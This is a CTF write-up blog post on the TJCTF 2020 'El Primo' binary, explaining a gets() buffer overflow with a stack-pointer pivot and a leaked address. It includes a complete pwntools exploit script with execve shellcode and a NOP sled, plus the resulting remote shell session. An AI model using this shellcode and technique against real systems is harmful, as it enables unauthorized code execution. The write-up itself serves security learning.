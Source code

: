 ```yaml
---
layout: post
title: TJCTF 2020 - El Primo
excerpt: "Writeup for buffer overflow challenge from TJCTF 2020"
categories: [pwn]
---
```


El Primo was a pwn challenge from TJCTF 2020 which supplied a binary. The results of running the binary are seen below, along with a disassembled version of the main function, generated by [Ghidra](https://ghidra-sre.org/).

```
michael@computer:~/Documents/CTF/elprimo$ ./primo 
What's my hard counter?
hint: 0xffbdd480
AAAA
```

<img src="/img/pictures/ghidra-main-elprimo.png">

We can see that we are given an address on the stack of a variable called "hint," and the dangerous "gets" function is called on the variable. This address could be useful for jumping to shellcode as long as NX is disabled. Using checksec confirms our suspicions. 

```
michael@computer:~/Documents/CTF/elprimo$ checksec ./primo
[*] '/home/michael/Documents/CTF/elprimo/primo'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

After seeing this, I jumped into GDB to have a look under the hood. Since PIE (position independent execution) is enabled, we know that the addresses of the instructions will not be constant. For this reason we need to use "b main" and "r" to start debugging the binary without referencing any addresses before they have been initialized. 

```
(gdb) b main
Breakpoint 1 at 0x61c
(gdb) r
Starting program: /home/michael/Documents/CTF/elprimo/primo 

Breakpoint 1, 0x5655561c in main ()
(gdb) 
(gdb) disas main
Dump of assembler code for function main:

...

   0x5655568c <+127>:	call   0x56555480 <printf@plt>
   0x56555691 <+132>:	add    esp,0x10
   0x56555694 <+135>:	sub    esp,0xc
   0x56555697 <+138>:	lea    eax,[ebp-0x28]
   0x5655569a <+141>:	push   eax
   0x5655569b <+142>:	call   0x56555490 <gets@plt>
   0x565556a0 <+147>:	add    esp,0x10
   0x565556a3 <+150>:	mov    eax,0x0
   0x565556a8 <+155>:	lea    esp,[ebp-0x8]
   0x565556ab <+158>:	pop    ecx
   0x565556ac <+159>:	pop    ebx
   0x565556ad <+160>:	pop    ebp
   0x565556ae <+161>:	lea    esp,[ecx-0x4]
   0x565556b1 <+164>:	ret    
End of assembler dump.

```

The last few instructions are very interesting. Whenever `pop ecx` is called, a value from off the stack (which we control) is stored into the ecx register. The last instruction before the return loads `ecx - 4` into esp, the stack pointer. Whenever the return is called, the instruction pointer will jump to the return pointer on the top of the stack. Since we control the stack pointer, we also control the return pointer. All that is left to do is to find which position on the stack is "pop"ed into ecx. This position turns out to be right after the 32 byte "hint" variable. Whener we put a value into ecx, we must also take care to add 4 since it is subtracted in the second-to-last instruction. So far we have something like the following...

```
'A' * 32 + (desired_esp + 0x4)
```

What we have so far will put the stack pointer in the desired place but does not write any return pointer. Since the `desired_esp` will be point right after what we have so far, we can just append our desired return pointer to the end of the string.

```
'A' * 32 + (desired_esp + 0x4) + somewhere_in_nopsled
```

All that is left to do now is to add our nopsled and shellcode!

```
'A' * 32 + (desired_esp + 0x4) + somewhere_in_nopsled + nopsled + shellcode
```

This same principal is shown in my solve script below. Since the leak indicates the address of the (start of the) 32 byte buffer, we need to adjust our desired esp accordingly. 

```python
from pwn import *

p = remote('p1.tjctf.org', 8011)

p.recvline()

shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'

leak = int(p.recvline().split(' ')[-1], 16)

# payload = padding + (desired_esp + 4) + return_pointer + nopsled + shellcode
payload = 'A' * 32 + p32(leak + 36 + 4) + p32(leak + 65) + '\x90' * 60 + shellcode

logging.info('Sending payload using leak %s' % hex(leak))

p.sendline(payload)

p.interactive()
```

Running the script gives us a shell on the challenge server, allowing us to retrieve the flag. I hope this was helpful!

```
michael@computer:~/Documents/CTF/elprimo$ python elprimo.py 
[+] Opening connection to p1.tjctf.org on port 8011: Done
[*] Switching to interactive mode
INFO:pwnlib.tubes.remote.remote.140163721894352:Switching to interactive mode

$ cat flag.txt
tjctf{3L_PR1M0O0OOO!1!!}
```